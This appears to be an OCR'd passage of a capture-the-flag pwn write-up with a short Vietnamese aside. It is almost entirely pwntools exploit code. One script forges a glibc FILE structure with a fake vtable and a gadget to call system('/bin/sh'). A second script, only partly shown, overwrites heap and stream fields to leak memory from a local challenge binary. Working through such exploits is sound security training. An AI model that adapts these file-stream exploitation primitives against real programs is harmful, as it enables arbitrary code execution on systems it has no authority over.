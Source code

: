 ```python

p.sendlineafter(b'Choice: ',b'2')


# build our FSOP payload
# some constants
stdout_lock = libc.address + 0x21ba70   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x0000000000163830 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh'.ljust(8,b'\x00'))  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

p.sendafter(b'Your masterpiece: ',bytes(fake))



p.interactive()
```


- 1 cách khác để lấy shell

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()
#gdb.attach(p,gdbscript='''
#           b*0x0000000000401590
#           b*0x00000000004014A7
#           b*0x0000000000401532
#           ''')

payload = b"A"*0x28 + p64(0x1e1)
payload += p64(0xfbad2488) # flags
payload += p64(0x403f88) # read_ptr
payload += p64(0x403f88+8) # read_end
payload += p64(0x403f88) # read_base

input()
p.sendlineafter(b'Choice: ',b'1')
p.sendafter(b"What's your name: ",payload)

p.sendlineafter(b'Choice: ',b'3')

p.recvuntil(b'ce:')
p.recvline()
```